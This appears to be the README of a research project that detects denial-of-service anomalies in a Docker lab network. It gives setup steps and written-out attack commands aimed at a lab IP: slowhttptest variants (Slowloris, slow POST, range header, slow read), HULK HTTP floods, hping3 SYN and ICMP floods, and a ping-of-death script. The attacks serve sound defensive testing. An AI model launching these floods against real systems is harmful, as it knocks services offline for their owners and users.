 # Intelligent forensics for the automatic anomaly detection in distributed infrastructures

![architecture](./images/virtual.png)

# NEW VERSION

## Start the network

To start the network run
```
docker-compose up -d
```
in newenvironment folder
## Start the experiment

To start the experiment enter the servidor container
```
docker exec -it newenvironment_servidor_1 /bin/bash
```
and run
```
python3 /servidor/output/DoSdetector/1clock.py
```

## Attack

To start the attack, enter the attacker:
```
docker exec -it newenvironment_attacker_1 /bin/bash
```
### Slowhttptest
```
slowhttptest -H -g -c 5260 -i 10 -r 30 -t GET -u http://10.100.0.2:3000/ -x 24 -p 3
```
#### SLOWLORIS
```
slowhttptest -c 1000 -H -g -i 10 -r 200 -t GET -u http://10.100.0.2:3000/ -x 24 -p 3
```
#### SLOW HTTP POST
```
slowhttptest -c 3000 -B -g -i 110 -r 200 -s 8192 -t POST -u http://10.100.0.2:3000/ -x 10 -p 3
```
#### RANGE HEADER
```
slowhttptest -R -u http://10.100.0.2:3000/ -t HEAD -c 1000 -a 10 -b 3000 -r 500
```
#### SLOW READ
```
slowhttptest -c 8000 -X -r 200 -w 512 -y 1024 -n 5 -z 32 -k 3 -u http://10.100.0.2:3000/ -p 3
```
### HULKv3 - HTTP flood attack
```
python3 HULK-v3/hulk_launcher.py server http://10.100.0.2:3000
```
enter another terminal with:
```
docker exec -it newenvironment_attacker_1 /bin/bash
```
and run:
```
python3 HULK-v3/hulk_launcher.py client -n 10
```
### HULKBarry Shteiman
```
python3 hulkBasic/1hulk.py http://10.100.0.2:3000
```

### hping3
#### SYN flood
```
hping3 -S -p 3000 --flood 10.100.0.2
```
#### ICMP flood
```
hping3 -p 3000 --icmp --flood 10.100.0.2 
```
#### Ping od Death
```
python3 pingOfDeath/pingOfDeath.py

```
## Results

To see the analysis enter the admin-fluentd container:
```
docker exec -it newenvironment_admin-fluentd_1 /bin/bash
```
enter the folder output to see the logs or the folder shared-volume/prediction/livePrediction to see the live result in the file named with the current date.
Otherwise, it is possible to analyse a time interval of a specific log file present in output/dos with:
```
python3 /shared-volume/prediction/intervalModelUser.py /output/DoS/[nameofthelog.log]
```
e.g.
```
python3 /shared-volume/prediction/intervalModelUser.py /output/DoS/dos.log.20240521.log
```
Finally the program will ask to insert a time interval to analyse.
It is also possible to predict a single line of log by running manualModelUser.py.











# Advices
If the images gets modified by changing the dockerfiles, to be effective the image should be builded again. To do so run "docker-compose build". Then again "docker-compose up -d".
